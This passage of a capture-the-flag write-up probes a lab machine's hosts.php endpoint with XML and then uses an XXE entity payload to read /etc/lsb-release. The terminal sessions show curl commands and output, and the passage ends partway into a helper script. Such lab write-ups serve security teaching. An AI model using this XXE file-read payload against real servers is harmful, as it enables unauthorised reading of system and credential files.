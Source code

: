 

    root@kali# cat test.txt
    <details>
        <subnet_mask>255.255.255.192</subnet_mask>
        <test></test>
    </details>
    root@kali# curl -X POST -d @test.txt http://10.10.10.78/hosts.php

    There are 62 possible hosts for 255.255.255.192

    root@kali# cat test2.txt
    <details>
        <subnet_mask>255.255.255.0</subnet_mask>
        <test></test>
    </details>
    root@kali# curl -X POST -d @test2.txt http://10.10.10.78/hosts.php

    There are 254 possible hosts for 255.255.255.0



## XXE Exploit / User Shell

This page takes our xml input, and shows it back to us! We can do an
inbound XXE attack to read files:



    root@kali# cat exploit.xml
    <!DOCTYPE foo[
    <!ELEMENT foo ANY >
    <!ENTITY xxe SYSTEM "file:///etc/lsb-release"> ]>
    <details>
        <subnet_mask>&xxe;</subnet_mask>
        <test></test>
    </details>
    root@kali# curl -X POST -d @exploit.xml http://10.10.10.78/hosts.php -x http://127.0.0.1:8080

    There are 4294967294 possible hosts for DISTRIB_ID=Ubuntu
    DISTRIB_RELEASE=16.04
    DISTRIB_CODENAME=xenial
    DISTRIB_DESCRIPTION="Ubuntu 16.04.3 LTS"



Perfect. Write a quick bash script so were not editing files every time.

`xxe_get_file.sh`:



    #!/bin/bash

    if [ "$#" == "1" ]; then
        file=$1
    else
        echo "$0 [file]"
        exit 1
    fi
